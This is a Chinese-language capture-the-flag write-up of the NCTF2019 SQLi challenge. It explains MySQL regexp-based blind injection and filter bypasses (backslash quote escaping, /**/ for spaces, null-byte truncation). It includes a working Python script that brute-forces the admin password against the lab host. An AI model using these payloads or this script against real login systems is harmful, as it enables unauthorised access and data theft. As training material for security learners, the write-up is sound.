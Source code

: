 # [NCTF2019]SQLi

## 0、知识点

>   基于regexp的盲注

 **关于MySQL的regexp**

>   **regexp：是正则匹配，可以说它是like关键字的上位替代，like关键字可以做到的它也可以做到**

**看一个正常的使用案例：**

```MySQL
-- 查找a开头的名称
SELECT * FROM `tb_class` WHERE ClassName regexp '^a'
-- 查找a结尾的名称
SELECT * FROM `tb_class` WHERE ClassName regexp 'a$'
-- 查找a开头 [或] a结尾
SELECT * FROM `tb_class` WHERE ClassName regexp 'a$|^a'
-- 范围查找，查找包含a到d字母的名称
SELECT * FROM `tb_class` WHERE ClassName regexp '[a-d]'
-- 范围组合,以下会依次去匹配，ae/be/ce/de的记录
SELECT * FROM `tb_class` WHERE ClassName regexp '[a-d]e'
```

**看一个基本注入案例**

```mysql
-- 正常注入语句
select username from users where id = 1;

-- 正则注入，如果username的第一个字符是a返回1，不是a返回0
select (select username from users where id=1) regexp '^a';

-- 联合查询中爆破数据库名
1 union select 1,database() regexp '^s',3--+
```

**regexp代替where条件中的 = 号**

==当过滤了【=】【in】【like】的时候就可以使用这个办法==

==【^】被过滤也可以使用【$】从后往前匹配==

```mysql
-- 用regexp查询20开头的年级
select * from tb_class where grade REGEXP '^20'
```





## 1、分析

>   打开题目主页，看起来非常简单，是一个sql注入的题，并且把sql语句都放出来了

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303230956093.png)

>   然后尝试使用万能密码`admin' or 1=1`并没有什么用

>   然后使用burpsuite扫一下过滤了哪些关键字

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303230959567.png)

>   过滤了好多东西，如：select、concat、like、limit、or、and等等，好多好多

>   根据过滤的关键字，也想不出啥注入方式，所以随便翻翻看看有没有提示

>   常见的提示一般会放在：**源代码、robots.txt**里面

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231047649.png)

>   可以看到提示文件了

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231048406.png)

>   可以发现这题有着让人头疼的过滤，然后登录进去了就可以拿flag，
>
>   读一下这个过滤，可以发现**regexp没有被过滤**，并且用户名是**admin**，password需要猜

>   所以我们需要去爆破admin用户的登录密码，但是如果用户名输入**admin**，会被**hacker**
>
>   所以出**username**这里下手是不行的，得想办法构造出**or**关键字那种形式的查询，从而把**username**的值忽略掉

>   如何把 **username**的值忽略掉，无非就是两个办法，**想办法闭合单代号，然后注释掉后面的单引号，或者转义掉后面的单引号，让后面的查询条件变成username的值**
>
>   ==闭合单引号的方法一般有：==
>
>   -   ==在输入的值的前面添加单引号==，**但是这里单引号被过滤掉了**
>   -   ==转义掉 **username**后面的单引号，从而让`username = \' and passwd=`==
>   -   翻一翻过滤关键字可以发现**【\】并没有被过滤，【||】也没有被过滤，【^】也没有被过滤，【空格】是被过滤的，但是可以使用【`/**/`】来代替空格**
>       -   那么盲注语句就很明显如下

```mysql
select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/\"^a\";%00'
```

>   然后推导出了盲注语句，就开始写脚本了？
>
>   然而并不是，写脚本之前首先的先知道如果第一个字符是正确的它会返回啥结果
>
>   所以首先用burp跑一遍看看第一个字符是啥

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232319041.png)

>   直接把大小写字符和标点符号全跑了一遍，只有【y】和【^】发生了302跳转，然后跳转到了一个**welcome.php**页面，至于Y应该是不区别大小写，可以先不管，至于【^】因为在正则里面就是表示任意字符，所以不考虑

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232322674.png)

>   进一步用Python分析一下，具体要以啥为判断注入正确的标准，以响应码还是判断welcome页面
>
>   输入y进行测试是返回了404结果，其他的字符会返回200

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232327601.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232334626.png)



>   然后就可以写一个盲注脚本了，**其中有个需要注意的点就是最后的【%00】截断，使用Python不知道为啥一直会被转义成【%2500】，然后导致一直失败，这个在burp进行测试是不会被转义的，后面找到可以使用【\x00】作为替代，效果是一样，这个**

```py
import requests
import string
import time

url = "http://06cd07e5-0726-4196-8e57-7a6b63746a53.node4.buuoj.cn:81/"
charPool = string.ascii_letters + string.digits + "_"

# 接收最终的结果
result = ''

# 密码的长度
for i in range(1, 60):

    for j in charPool:

        data = {
            "username": "\\",
            "passwd": '||/**/passwd/**/regexp/**/"^{}";\x00'.format(result+j)
        }
        res = requests.post(url=url, data=data)
        if res.status_code == 404:
            result += j
            print(result+j, "   ", res.status_code)
            break

        # 当到达最后一个字符时候
        if j == "_":
            break

        time.sleep(0.5)
```

>   当以【__】结尾跑完一圈还全是200，就是后面没了

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231530758.png)



>   最后登录获取flag，用户名随便输，密码为：you_will_never_know7788990

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231518174.png)



















参考：

https://xz.aliyun.com/t/8003#toc-7

https://zhuanlan.zhihu.com/p/106088835

https://www.cnblogs.com/zhwyyswdg/p/14036395.html